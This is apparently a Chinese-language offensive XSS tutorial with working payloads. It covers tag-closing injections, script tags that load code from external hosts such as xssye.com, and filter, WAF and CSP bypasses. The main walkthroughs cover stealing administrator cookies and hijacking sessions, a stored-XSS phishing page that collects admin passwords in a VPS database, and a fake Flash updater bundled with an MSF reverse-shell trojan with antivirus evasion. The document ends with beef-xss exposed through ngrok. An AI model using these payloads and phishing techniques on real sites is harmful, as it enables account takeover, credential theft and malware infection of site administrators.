


存在xss漏洞的站点：
企业站点
测管理员经常上线的站点
借助社工 让管理员登录后台触发漏洞利用：
cookie盗取 欺骗管理员身份登录后台
钓鱼
黑帽seo js代码
快照劫持 页面跳转 蜘蛛劫持 钓鱼 等一系列攻击根目录/首页 head头标签里面的script代码
跨站脚本的实例：
XSS分类
反射型XSS
存储型XSS
DOM型XSS
XSS漏洞挖掘
手工挖掘XSS
-
闭合
1
2
3
4<td>123</td>
#插入的内容：123</td><script>alert("xss")</script>
<td>123</td><script>alert("xss")</script></td>
这么一来就把前面的标签闭合了比如说我们找到了一个可以注入的地方，可以先看一眼前端代码来确定一下他的闭合方式，然后来绕过
-
长度限制
-
长度限制（前台限制）
修改表单长度（maxlength）、burp抓包修改
-
后台服务器/代码限制
这种只能缩短代码长度
1
2
3
4
5
6<script src=http://xssye.com/sluJ></script>
<!-- 如何将其缩短？
1. <script src=http://xssye.com/sluJ>
2. <script/src=//xssye.com/sluJ>
如果想要继续缩短的话，就可以使用 URL短网址
-
-
防护（代码防护、waf 防护）
前后台标签不一致：可以通过前台标签推理后台标签
如果不知道后台标签的情况下，可以尝试盲闭合（把所有的情况都写一遍）：1
2'"/></tr></td></div></li></textarea><script>alert("XSS")</script>
<!-- 闭合单引号、双引号还有标签啥的 -->-
通用型防护
根据防护的位置方式方法
1
2
3
4<s<x>cript/src=//t.cn/sluJ></sc<x>ript>
<!-- 这种要防护的话就得找黑名单之外的标签调用了，简单一点的可以双写啥的去绕过 -->
<script/**/src=//t.cn/sluJ>
<!-- 使用内联注释绕过csp 防护：不允许调用外部的 js 进行执行，可以借助一些 fram 标签来过滤掉
-
waf防护（d盾、360、云锁）
1
<script/src=//xssye.com/sluJ> <!-- 这种可以过云锁 -->
像这种，使用了 img 标签，然后 src 指定一个 x，这样一定会报错，一旦报错就会执行后面的 eval 命令（这里过滤了script）
里面的 atob 使用来解码 base64 的
-
-
位置问题
挖掘的位置：
-
反射型XSS
搜索框、URL参数位置、挖掘你提交的内容在页面中有回显的地方
-
存储型XSS
可以写入数据库中的，并且会被调用
-
留言
-
注册（用户名，个人资料，支付宝，微信，备注，留言，银行卡信息）
-
登录（用户名、管理后台 登录账号会有登录日志 ==> lvycms3.0漏洞、client-ip、x-forwarded-for、请求头）
-
修改资料、提交工单、打款备注、订单系统（备注位置存在很多）
-
-
XSS 的编码
html实体编码

将上述代码进行编码（HTML转义）：
我们将转义之后的编码直接写到 html 文件里面运行，查看运行结果
可以看到直接被解码然后输出出来了，并没有被运行（解一次码，然后当做字符串输出），那我们应该怎么写？
可以单纯将内容进行编码，不对标签进行编码
再次访问发现图片可以被显示出来了（所以不可以把整条语句都进行编码，只编码值就可以）
那我们再进行一下测试，这次我们把 src=也进行编码，看看结果如何
所以我们要对这种进行html实体编码同时要可以运行：
- 从属性的值开始编码，要留下属性的名称，比如：src=
- 不能把属性进行编码，也不能直接把整个标签全部进行编码
进制类编码
对需要执行的代码进行编码，其他的地方不要乱编码
Unicode 编码
在反射型 URL 当中可以尝试 Unicode 编码
JS 代码加密：如果 WAF 拦截代码的话
可以尝试进行双重编码，比如 JS+html 编码
工具挖掘
AWVS、burp、OWASP、BruteXSS
XSS cookie 盗取
可以使用盗取到的cookie直接登录到目标网站
存储型XSS盗取cookie
我们先找到一个可以上传的地方，同时上传的最终地点是数据库，比如留言板，然后在留言的位置直接插入XSS代码，但是要注意尝试闭合，比如留言的位置就可以使用 标签进行闭合，然后其他位置可以查看前端代码来猜测应该使用什么标签进行闭合，然后那种有长度限制的，比如这里的QQ还有邮箱，我们就可以尝试直接抓包来修改长度限制。
然后我们进入到管理员后台进行查看
标签闭合成功，代码成功执行，然后我们返回到一个 XSS 平台进行查看
可以看到返回了一个管理后台的地址以及管理员cookie，这个时候我们就可以尝试 cookie 注入了，进入到管理员的后台管理系统，使用刚刚劫持到的cookie直接伪造成管理员的身份进行登录，绕过登录【其中这个的管理员地址以及cookie的传播过程会被捕捉到，可以直接在网络里面进行查看】
反射型XSS盗取cookie
将 XSS 代码插入到 URL 当中，只要诱导管理员点击这个 URL 就可以拿到管理员的 cookie

但是这种 URL 一眼就可以看出来是带有XSS的，所以我们需要伪造一下，比如：发送一个页面，就类似下面这种：上面的页面输入正常页面，然后插入一张图片对应的 SRC 是一个反射型 URL，然后我们将这个 HTML 页面使用邮箱发送给受害者，一旦受害者打开这个 HTML 页面，我们就可以在XSS平台接收到他的 cookie
建立session会话控制：
cookie 是有有效期的，一般是7天或者是1个月，如果管理员修改了密码，那么cookie就会失效，我们可以设置一个短信提醒，提前进入到管理员后台，将 cookie 换为 session，这样就算 cookie 被修改了也可以维持登录状态
保持 session：理论上，只要我们不退出后台，session就会一直有效，但是像安全狗这种类型的WAF他会强制设置session为30分钟有效期，时间一过就会强制退出重新登录
我们可以使用鼠标点击器来重复上述的点击操作，然后想要使用的话就 F7 退出进行操作
http-only 只读cookie
awvs：如果没有启用就会报一个中危漏洞
一旦被启用的话，就只能打到管理员后台（会返回一个地址），返回的cookie没有用或者返回为空（打不到cookie）
http-only 启用时的攻击

启用了 http-only，我们无法获取cookie
钓鱼（ 通过伪造管理员后台盗取管理员账号 ）
我们使用客户端浏览器将代码植入到目标网站的后台里面，管理员登录到后台之后触发代码就会弹出一个登录界面，这个界面就是我们使用VPS搭建的一个钓鱼页面，管理员一旦登录，我们就可以获取到他的账号以及密码，然后这些信息会保存到我们VPS的数据库当中
这里介绍一个工具 httrack，这个工具可以用来下载网站上的一些源码（通过网站的 URL 来下载），使用这个是为了防止不同操作系统之间的编码问题导致的乱码问题（这个工具可以直接在 kali 上使用）
【钓鱼实例】
首先我们使用 httrack 工具将要攻击的网站的源码下载下来，然后利用这些前端源码，将网站搭建在我们的 VPS 上面，这里我们在本地测试一下，使用小皮搭建一个站点进行测试
将下载好的源码放到小皮的根目录下，之后我们需要修改一些参数，比如跳转的地址以及数据库的name
然后我们还需要两个php文件，一个是
index.php，一个是tz.php文件
index.php文件：这个文件的主要内容就是他会接收两个参数，一个 username 和一个 password，同时会将这两个参数保存到一个admin表里面，这个表有两列，一个是 username列，一个是 password列，然后开头是一个连接数据库的命令，就是本地的数据库（如果有 VPS 就修改成 VPS 的地址），然后是数据库的账密以及指定的数据库 dd。总结就是会将接收到的账密发送到指定的数据库当中。注意开头还 include了一个
tz.php
tz.php文件：用来让管理员跳转到真正的后台地址的
然后就是最重要的一步，我们怎么才可以将这个钓鱼页面上传到目标的后台，这个时候就可以利用存储型XSS
然后我们切换到管理员视角，我们先进入到管理员后台
一点击这个等审留言就会跳转到钓鱼页面
然后管理员就会进行登录，这个时候账密就会被传输到 VPS 的数据库上面，然后页面再次跳转，跳转到管理后台登录的首页，但是管理员只会认为需要重复登录，然后登录成功就会进入到后台页面
然后我们查看一下VPS的数据库，可以看到账密已经被记录下来了
当然我们也可以直接使用 XSS 平台来实现这种效果，就是将最后那个Windows跳转的代码写入到一个模块里面，然后创建一个项目引用这个模块
钓鱼（合成flash -更新升级exe程序来获取管理员pc权限）【难点：免杀以及伪造】
思路：下载一个flash升级页面
伪造一个flash的升级页面，想办法让他跳转到这个页面下载flash，然后我们将正常的flash软件和我们的木马进行捆绑，只要他下载升级了，我们的木马就会运行（给木马做一个免杀）
首先我们需要使用 MSF 生成一个反弹 shell 的 exe 可执行文件（木马 => 记得给木马做一个免杀）
开启监听
使用 httrack 下载 flash 的页面，方便后序进行钓鱼
其他的都做的一模一样了，唯一需要修改的就是这些参数还有这个立即下载的样式，这个就是前端的东西了，还有就是点击下载之后会跳出一个flash.exe文件的下载，这个我们也要根据原版的样式进行模拟，然后我们可以注册一个 flash.top 这种类似的域名，和我们的 VPS 绑定一下，还有就是要修改一下网站的 icon
然后就是将 flash的那个软件和我们的木马进行捆绑
我们只需要创建一个自解压格式的压缩文件，然后修改一下压缩文件的名称就可以，他会自动生成exe类型的文件
然后我们还需要修改一下他的设置
最后我们只需要修改一下这个新生成的文件的图标就可以
然后就是钓鱼用的XSS代码，我们只需要将最后的地址修改为我们VPS的地址就可以
使用上述的代码在XSS平台创建一个模块，然后利用这个模块创建一个项目，之后利用生成的XSS代码进行钓鱼
我们将上面生成的XSS代码插入到留言板里面，当管理员访问后台的时候就会跳转
然后我们点击立即下载，可以看到下载成功了
然后我们点击运行，可以看到 flash 的软件以及木马都被执行了，后台的会话也成功建立了


beef-XSS
参考文章：beef-xss详细教程
我们需要利用上述的XSS代码进行测试，将他放到留言板插入到数据库当中
进入到管理页面可以看到XSS已经被执行了，然后我们去管理面板看看有没有上线，可以看到已经成功上线了，然后就可以进行一系列操作了，比如：可以获取到管理后台的表单、管理员的cookie、超链接等等
这个时候问题来了，这个 beef-xss 只能在我们本地 kali 运行起来，所以利用的地址也是我们本地的，那要怎么拿去钓鱼呢？可以使用 ngrock 进行代理转发
我们只需要修改一下beef的配置文件，将端口修改为 ngrock 转发到本地的端口，然后我们就可以利用 ngrock 给的公网的地址进行钓鱼了